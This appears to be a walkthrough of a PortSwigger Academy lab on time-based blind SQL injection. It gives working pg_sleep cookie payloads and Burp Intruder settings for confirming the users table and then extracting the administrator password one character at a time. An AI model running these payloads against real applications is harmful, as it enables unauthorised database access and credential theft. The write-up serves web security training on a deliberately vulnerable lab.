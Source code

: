 # Write-up: Blind SQL injection with time delays and information retrieval @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Blind SQL injection with time delays and information retrieval @ PortSwigger Academy* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![Lab Description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In my case, the cookie contains this content
`Cookie: TrackingId=uD5bMjtaBP5WNste; session=npWR2WTlX6rdoW3hr8p71NaSzOy2QZzD`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

### Find database engine

Due to the type of vulnerability, on the page itself, we can not distinguish whether the injection caused any reaction. This also makes finding an injection point more difficult, as simply injecting a single quote does not cause any reaction.

On the [cheat [sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), time-delay examples are given for multiple database engines. As we don't know which one to choose, simply attempt them one by one.

```text
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10) 
```

The important thing is that the query must remain valid, as if it errors out we will not get any indication of it and may assume that the injection failed and move to the next database engine, when in fact the query was never executed.

I try to form the following query (ABC being the value of the tracking cookie).

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'ABC' || (<CODE HERE>) || '
```

The first character injected is the single quote after the ABC, then I concatenate the output of my code, followed by another concatenation with a single quote. For Oracle and PostgreSQL, the `||`s are used for concatenation, for Microsoft a `+` and for MySQL a single space.

Reaching the PostgreSQL syntax and injecting `'||(SELECT pg_sleep(10))||'`, the query takes a long time to finish: 10.090s. Usually, the query takes about 100ms for me, so these additional 10 seconds come from the injection.

![Found injectable delay](img/confirm_injectable_delay.png)

### Confirm table and column names as well as username

Now that we know the database type, the next steps are:

- confirm that the `user` table exists and
- contains the columns `username` and `password` and
- contains an entry for username `administrator`

I also cut down the delay to 3 seconds to make it more convenient.

`'||(SELECT pg_sleep(3) FROM users LIMIT 1)||'`

![Table exists](img/table_check.png)

`'||(SELECT pg_sleep(3)||username||password FROM users LIMIT 1)||'`

![Columns exist](img/columns_check.png)

`'||(SELECT pg_sleep(3)||username||password FROM users WHERE username='administrator')||'`

![Username exists](img/username_check.png)

All queries take slightly more than 3 seconds, whereas using different names for table or column names or using a different username, the response comes immediately.

--> Table exists with username and password columns, containing an entry for `administrator` as username.

### Get the length of the password

Enumerating the password is now easy by extending the `WHERE` clause:

`'||(SELECT pg_sleep(3) FROM users WHERE username='administrator' AND LENGTH(password)=1)||'`

![cookie for the password length check](img/length_of_password_cookie.png)

However, when attempting this in Burp Intruder, the following picture was shown, hinting that the password has every length between 20 and 30, with the exception of 21. Not very likely.

![resource pool issue](img/password_length_pool_issue.png)

By default, Burp Intruder creates 10 concurrent requests. This might cause an issue, so try again after creating a new resource pool with only a single concurrent request:

![create a new resource pool](img/password_length_new_pool.png)

![correct result for password length](img/password_length.png)

Now the result looks like expected, and the password is 20 characters long.

### Enumerate password

To enumerate the password is basically the same, just by checking each character of the password instead of the length of the password. I use the same resource pool as above to avoid any issues with concurrent requests.

`'||(SELECT pg_sleep(3) FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'`

// 📝 ADD PAYLOAD IN FIRST '1' AND THEN ON 'A'

![cookie for password enumeration](img/cookie_enumerate_password.png)

Using Burp Intruder again, with attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

![Enumerated password](img/password_result.png)

Password is `372het1lfsoftgkpojrj`

### Log in

All that is left is to log in with these credentials. The lab updates to

![success](img/success.png)

